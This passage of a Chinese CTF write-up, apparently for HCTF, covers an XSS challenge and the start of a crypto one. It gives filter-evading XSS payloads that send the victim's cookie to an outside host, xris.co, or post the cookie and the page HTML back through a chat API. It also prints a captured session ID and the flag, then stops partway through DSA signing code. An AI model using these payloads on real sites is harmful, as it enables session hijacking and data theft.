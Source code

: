 一开始的payload为<code>&lt;scrscriptipt&gt;locatioonn.href=`http://xris.co/rcv.php?m=`+document.cookie&lt;/scrscriptipt/&gt;</code>。虽然最后学长说这个就是对的，只是等了好久没有等到Cookie的我之前以为这样不行，换了不少的方法。

我让对方重新把Cookie作为message，POST回我在这个聊天面板的帐号中，这样也不会有CSP的问题了。不过一开始用jQuery出了点问题我换了个方法……用了`XMLHttpRequest`方法，虽然麻烦很多但是我证实过可以，我成功把一个小号的整个HTML页面给XSS了过来。

payload大致如下
{% highlight javascript %}
<scrscriptipt>
xhr = new XMLHttpRequest();
xhr.open(`POST`, locatioonn.href.substr(0, 65) + `api/addmessage.php`);
xhr.setRequestHeader(`Coonntent-Type`, `applicatioonn/x-www-form-urlencoded`);
xhr.send(`to=username&message` + encodeURICompoonnent(document.cookie));
</scrscriptipt/>
{% endhighlight %}

当然还有后来的……

{% highlight javascript %}
<scrscriptipt>
xhr = new XMLHttpRequest();
xhr.open(`POST`, locatioonn.href.substr(0, 65) + `api/addmessage.php`);
xhr.setRequestHeader(`Coonntent-Type`, `applicatioonn/x-www-form-urlencoded`);
xhr.send(`to=username&message` + encodeURICompoonnent(document.getElementsByTagName(`body`)[0].innerHTML));
</scrscriptipt/>
{% endhighlight %}

一开始用的`querySelector`，结果后来发现`Select`被替换成了`hacker`，于是只能用朴素的`getElementsByTagName`了。

总之搞了半天，后来还是去问了管理员，他上去看了一下才搞出来的。

然后拿到了Cookie`lang=zh-CN; PHPSESSID=0e1eka2ec7i3c4q5q9e72fmsd4`，用这个Cookie再向/api/getmessage.php请求一下，就拿到了flag为`hctf{itz_ju5t_4_st4rt233}`。

## Crypto

好吧，这个迷一样的一次性密码本不会做。

### 进击的 Crypto [4]

http://119.29.138.57/crypto/Crypto[4].34b3396feff9f911a61e932a22c4470

{% highlight python %}
import hashlib
from gmpy2 import mpz, invert

p = 190716027447646792844189733681358379327343061199369341384474902557309769682923254674220284045951117393868651638379541511185212421611653965460100979887725583476037189369599999668327299529542494009290049992057157747007152994025186591269943960410319186487203043168774653327128061548663247131284489765017
q = 930788704028200015275140127068138499329817310955
g = 220237156062724657086413463831954488565703875839368639153162645824259735475648417436812689270045835305613201869418328189101417845912386944695747737570415063979393239590022180767575736652824918336764694014421673518178065244519367602124516716571334763354973717129155502536345229391073998560517516716958
k = '???'
x = '???'

def data_to_int(s):
	return int(s.encode('hex'), 16)

def SHA1(data):
	return data_to_int(hashlib.sha1(data).hexdigest())

def encrypt(data, p, q, g, x, k):
	r = pow(g, k, p) % q
	s = (invert(k, q) * (SHA1(data) + x * r)) % q
	return (r, s)